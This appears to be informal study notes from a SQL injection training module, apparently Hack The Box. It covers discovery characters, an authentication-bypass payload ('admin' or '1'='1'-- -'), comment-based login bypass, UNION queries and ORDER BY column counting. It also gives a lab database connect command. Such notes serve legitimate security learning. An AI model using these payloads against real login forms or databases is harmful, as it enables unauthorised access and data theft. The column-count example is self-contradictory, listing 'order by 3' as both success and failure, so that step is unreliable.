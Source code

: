 ```mysql -u root -h docker.hackthebox.eu -P 3306 -p ```
Finally, in some cases, we may not have direct access to the output whatsoever, so we may have to direct the output to a remote location, 'i.e., DNS record,' and then attempt to retrieve it from there. This is known as Out-of-band SQL injection.

In this module, we will only be focusing on introducing SQL injections through learning about Union Based SQL injection.
```

# Discovery

We test if an application is vulnerable via a simple payload, such as 

```
'
"
#
;
)
```

If we're lucky, we can get a free win with

```
admin' or '1'='1'-- -
```

# Using Comments

We can use comments as a mean of auth bypass, like ```admin'--```, which would comment out the rest of the query, and only check for username==admin.

```admi2' OR id = 5)-- ```

We use an OR operator to get in as ID 5. We try to authenticate where the username is admi2 (does not exist), or where id = 5 (intended goal).

# Union Clause

The UNION statement is used to combine results from multiple SELECt statements.

```SELECT * FROM ports UNION SELECT * FROM ships;```

Union statement can only operate on select statements where the number of columns are the same (IE where both tables have 3 columns)

```SELECT * from products where product_id UNION SELECT username, 2, 3, 4 from passwords-- '```

Assumes that products has 4 columns, and passwords does not have that same number. IT would select usernames from passwords.

```SELECT * FROM departments UNION SELECT emp_no, birth_date FROM employees;```

Departments has 2 columns, and employees has like 5, so we only select 2 columns from there.

# Union Injection

The first goal is to test for vulnerabilities (simple payload).

The next goal is to detect the number of columns in the table.

```' order by 1-- -``` (SUCCESS)
```' order by 2-- -``` (SUCCESS)
```' order by 3-- -``` (SUCCESS)
```' order by 3-- -``` (FAIL)
When this errors out, go back to the highest number that didn't error out. Therefore, the table has 3 columns.
```